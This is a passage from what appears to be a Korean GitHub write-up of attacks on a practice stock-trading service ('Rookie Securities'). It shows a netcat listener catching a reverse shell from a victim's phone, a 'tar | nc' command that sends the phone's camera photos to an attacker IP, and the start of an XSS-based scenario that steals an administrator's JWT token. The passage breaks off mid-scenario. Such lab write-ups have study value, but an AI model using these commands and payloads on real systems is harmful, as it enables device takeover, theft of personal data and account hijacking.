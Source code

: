 | 입력 구문 |
|---------|
| netcat-win32-1.12>nc64.exe -nvlp 8888 |

> <img width="456" alt="image" src="https://github.com/hanmin0512/rookiestock_hacking/assets/37041208/7f2d8d98-725c-47c6-b1e8-a181a7588b02">


- 사용자가 앱을 실행하면 공격자 서버와 연결이 되면서 휴대폰의 쉘을 획득할 수 있다.

> <img width="456" alt="image" src="https://github.com/hanmin0512/rookiestock_hacking/assets/37041208/7176ceea-f08f-4a6d-bd1c-d2b944111ea7">

- 피해자 휴대폰의 내장 메모리에 접근한 뒤 탈취하고 싶은 데이터가 있는 위치로 이동한다.

| 입력 구문 |
|---------|
| cd /storage/emulated/O/DCIM |

> <img width="456" alt="image" src="https://github.com/hanmin0512/rookiestock_hacking/assets/37041208/723d2566-2245-4d07-ac0a-9c09898bef54">

- 공격자의 또 다른 포트를 열어두고 사용자의 휴대폰에서 공격자의 서버로 데이터를 전송한다.

| 입력 구문 |
|---------|
| tar cfp – Camera | nc 192.168.14.180 5555 |

> <img width="477" alt="image" src="https://github.com/hanmin0512/rookiestock_hacking/assets/37041208/a481990b-5e31-4544-a7af-9a843e2ea9aa">

- 사용자의 휴대폰 카메라에 접근했을 때 이미지 파일들을 전부 확인할 수 있다. 이 외에도 사용자의 개인정보나 중요 정보를 획득할 수 있다.

> <img width="478" alt="image" src="https://github.com/hanmin0512/rookiestock_hacking/assets/37041208/64c8d468-caa6-449f-b4e6-599f698036f2">


## S-4 금전 취득 시나리오

- 금전 취득 시나리오는 XSS 취약점, E2E 우회, CSRF 취약점을 활용한 공격 시나리오이다. 크로스 사이트 스크립팅 취약점은 악의적인 스크립트가 웹 애플리케이션을 통해 다른 사용자의 브라우저로 전송되어 실행되는 보안 취약점이다. 이 취약점을 통해 공격자는 사용자의 세션을 탈취하거나, 웹사이트를 변조하거나, 사용자를 속여 정보를 빼내는 등의 행위를 할 수 있다. E2E 우회는 암호화된 통신 경로에서, 종단 간 보안이 제대로 구현되지 않아 발생하는 보안 취약점을 의미한다. 이를 통해 공격자는 데이터의 암호화를 우회하여 중간에서 데이터를 읽거나 변조할 수 있다. 크로스 사이트 요청 변조 취약점은 공격자가 사용자의 브라우저를 이용하여 사용자의 의도와는 무관하게 웹 애플리케이션의 악의적인 요청을 보내도록 만드는 보안 취약점이다. 이 과정에서 사용자는 자신이 로그인한 웹사이트에서 의도치 않은 행동을 실행하게 된다.

### 1차 정보 수집

- 루키증권 문의 게시판에 자바스크립트 코드가 포함된 글을 작성하고, 이 코드가 게시글을 조회하는 사용자의 브라우저에서 실행되는지 확인한다.

| 입력 구문 |
|---------|
| `<script>alert('test');</script>` |

> <img width="257" alt="image" src="https://github.com/hanmin0512/rookiestock_hacking/assets/37041208/8d473a6c-03bf-4fa5-8445-cc601bde1c49">
> <img width="257" alt="image" src="https://github.com/hanmin0512/rookiestock_hacking/assets/37041208/e6d8147d-bedc-45fe-8aa4-1c1dee666fef">

### 관리자 인증 정보 탈취
- 크로스 사이트 스크립팅 취약점을 이용해서 문의 게시판에 JWT Token을 획득할 수 있는 스크립트를 작성한다. 획득한 관리자의 JWT Token을 이용하여 관리자 계정으로 로그인을 한다.
